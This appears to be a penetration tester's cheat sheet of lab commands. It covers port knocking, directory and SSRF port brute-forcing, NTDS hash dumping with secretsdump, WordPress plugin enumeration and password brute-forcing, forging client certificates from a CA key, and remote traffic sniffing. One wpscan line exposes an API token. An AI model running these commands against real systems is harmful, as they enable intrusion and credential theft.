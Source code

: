 ## port knocking on 3 ports using nmap
```bash
for x in $(echo 22 23 24);do nmap -PN --host-timeout 201 --max-retries 0 -r -p$x 192.168.0.106;done
```

## classic gobuster
```bash
gobuster dir -u http://10.10.10.55:8080 -a 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3831.6 Safari/537.36' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -o gobuster/http-dlist-lower-small.txt
```

## list contents of .vhd file
```bash
7z l filename.vhd
```


## do a local port scan using SSRF
```bash
# --hl=2 is hide responses that has 2 lines. 
wfuzz -c --hl=2 -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
```

## dump password hasshes from ntds dump file using system hive file and the dit file
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM.bin LOCAL
# tip: users ending with $ are system accounts and has hard passwords, look for other ones
```
## wpscan enum all plugins 
```bash
wpscan --url http://10.10.10.88/webservices/wp/ --enumerate ap --plugins-detection aggressive --force --api-token o3Oj8OysJNmHbVf5PoEMe6ASLUrac3Q5KJB8G0aguz4
```

## wpscan brute
```bash
wpscan --usernames tom -P /usr/share/wordlists/rockyou.txt --force --password-attack wp-login --url http://192.168.137.131/prehistoricforest/ --no-update
```

## generate client certificate from ca.key
```bash
openssl req -x509 -new -nodes -key ca.key -sha256 -days 1024 -out rh.pem
openssl pkcs12 -export -in rh.pem -inkey ca.key -out rh.p12
```

## login via ssh and use tcpdump to monitor loopback interface of traffic in a port (i.e: 389/ldap) | pipe to wireshark to monitor it live
```bash
# only works if the ssh user has sufficient permissions or the tcpdump binary has posix capability set
ssh username@10.10.10.119 "/usr/sbin/tcpdump -i lo -U -s0 -W - 'port 389'" | wireshark -k -i -
```
